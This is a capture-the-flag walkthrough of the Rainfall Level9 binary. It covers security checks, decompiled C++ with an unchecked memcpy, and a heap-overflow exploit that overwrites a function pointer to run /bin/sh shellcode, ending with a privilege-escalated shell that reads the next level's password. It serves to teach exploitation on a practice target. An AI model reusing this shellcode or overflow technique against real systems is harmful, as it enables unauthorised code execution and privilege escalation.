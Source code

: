 # Walk-through Level9

## Introduction
Level9 is part of the Rainfall challenge series, where the goal is to escalate privileges by exploiting a vulnerable binary. This walk-through covers analyzing the binary, identifying vulnerabilities, and obtaining elevated access.

## Security Checks
Examining the binary's security mechanisms reveals that it lacks several modern protections, making it more susceptible to exploitation:

```bash
level9@RainFall:~$ checksec --file level9 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level9
```
**Key observations:**
> **No RELRO** : The binary does not protect against GOT overwrite attacks.

> **No stack canary** : Buffer overflow attacks are possible.

> **NX disabled** : Stack is executable, allowing shellcode execution.

> **No PIE** : The binary has a fixed memory layout, making exploitation easier.

### Analyzing `level9`

After running the command `ls -l level9`, we observe the following output:

```
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```

From this output, we can see that the binary `level9` is set with **SUID (Set User ID)** and **SGID (Set Group ID)** permissions. This means:

- The `s` in the owner (`rws`) and group (`r-s`) permission bits indicates that the program will run with the privileges of its owner (`bonus0`) and group (`users`), regardless of who executes it.
- In other words, when any user runs this program, it will execute as if it were run by the `bonus0` user.

## **Debugging**  

```
level9@RainFall:~$ ./level9 
level9@RainFall:~$ ./level9 hello world
level9@RainFall:~$ ./level9 `python -c 'print("A" * 120)'`
Segmentation fault (core dumped) 
```

After running `./level9`, we noticed that:  

1. Running the binary without arguments produces no visible output.  
2. Running it with a simple string (`hello world`) also does not show anything unusual.  
3. However, when providing an input of 120 characters (`"A" * 120`), the program crashes with a **segmentation fault**.  


Since the program crashes with a segmentation fault, this suggests a **buffer overflow vulnerability**. To investigate further, we will:  

- decompile this binary using **Dogbolt** to understand its logic.
## **Code Analysis**

The relevant functions are:

### **1. `setAnnotation` function**
```c
void *__cdecl N::setAnnotation(N *this, char *s)
{
  size_t v2; // eax

  v2 = strlen(s);
  return memcpy((char *)this + 4, s, v2);
}
```
- This function **copies the user input (`s`)** into an object **without checking the size**, leading to **buffer overflow**.

### **2. `N` Constructor**
```c
void __cdecl N::N(N *this, int a2)
{
  *(_DWORD *)this = off_8048848;
  *((_DWORD *)this + 26) = a2;
}
```
- The constructor initializes an **object `N`** and sets its **first 4 bytes** (`*this`) to a function pointer (`off_8048848`).
- It also **stores an integer (`a2`) at an offset of 26 DWORDs (104 bytes).**

### **3. `main` function**
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  N *v3; // ebx
  N *v4; // ebx
  N *v6; // [esp+1Ch] [ebp-8h]

  if ( argc <= 1 )
    _exit(1);

  v3 = (N *)operator new(0x6Cu);
  N::N(v3, 5);
  v6 = v3;
  
  v4 = (N *)operator new(0x6Cu);
  N::N(v4, 6);
  
  N::setAnnotation(v6, (char *)argv[1]);

  return (**(int (__cdecl ***)(N *, N *))v4)(v4, v6);
}
```
### Finding the Vulnerability
The key vulnerability is in:
- **The user input is written at offset 4 of `v3`**.
- Since `v3` is **108 bytes**, providing **more than 104 bytes** allows us to overwrite the **function pointer stored in `v4`**.
- This enables **arbitrary code execution**.
```
void *__cdecl N::setAnnotation(N *this, char *s)
{
  size_t v2; // eax

  v2 = strlen(s);
  return memcpy((char *)this + 4, s, v2);
}
```
#### What We Know
1. The program **expects at least one argument**.
2. It **allocates two objects (`v3` and `v4`)** using `operator new(0x6Cu)`, meaning each object is **108 bytes in size**.
3. The first allocated object **`v3`** is passed to `setAnnotation`, which **copies user input** into it **without size checks**.
4. The program **calls a function pointer stored in `v4`**, which **could be controlled if we overwrite it**.

## Proof-of-Concept (Working Exploit) 
``` bash
level9@RainFall:~$ ./level9 `python -c 'print("\x0c\xa0\x04\x08"+ "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A"*76 + "\x0c\xa0\x04\x08")'`
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```